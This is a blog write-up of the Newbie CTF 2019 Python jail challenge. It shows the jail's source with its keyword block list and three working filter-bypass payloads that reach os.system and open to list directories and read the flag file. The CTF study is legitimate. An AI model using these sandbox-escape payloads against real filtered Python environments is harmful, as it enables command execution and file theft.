 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019)"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
tags:
  [
    "Python",
    "ctf",
    "ctf jail",
    "ethical hacking",
    "security",
    "Newbie CTF",
    "Newbie CTF 2019",
    "pyjail",
    "bash",
    "data",
    "built-in methods",
    "getattr",
  ]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

The jail is basically a set of python code that is executed on the python process when the user executes certain commands, in this case entering specific lines of text. This is possible since Python allows passing parameters to the application. In this particular case, the script only checks if the command passed is not banned.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

```bash
Hi! Welcome to pyjail!
========================================================================
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
print(“Hi! Welcome to pyjail!”)
print(“========================================================================”)
print(open(__file__).read())
print(“========================================================================”)
print(“RUN”)
text = input(‘>>> ‘)
for keyword in [‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’]:
if keyword in text:
print(“No!!!”)
return;
else:
exec(text)
if __name__ == “__main__”:
main()
========================================================================
RUN
```

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called `import` and pass it the input `os`. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **built-in** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

```bash
>>> print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls .'))
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
>>> print(getattr(getattr(globals()[‘__builtins__’], ‘__im’+’port__’)(‘o’+’s’), ‘sys’+’tem’)(‘cat home/python_jail/flag’))

KorNewbie{H311oh0w@r3_y0u_d0lng?}
```

Another solution to the Capture the Flag challenge is to use lower() string method:

```bash
>>>__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)
```

We could also encode the strings to display the hidden key:

```bash
>>> print(getattr(getattr(getattr(main, ‘__globals__’)[‘__builtins__’], ‘\x6f\x70\x65\x6e’)(‘/home/python_jail/flag’, ‘rb’), ‘\x72\x65\x61\x64’)())
b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
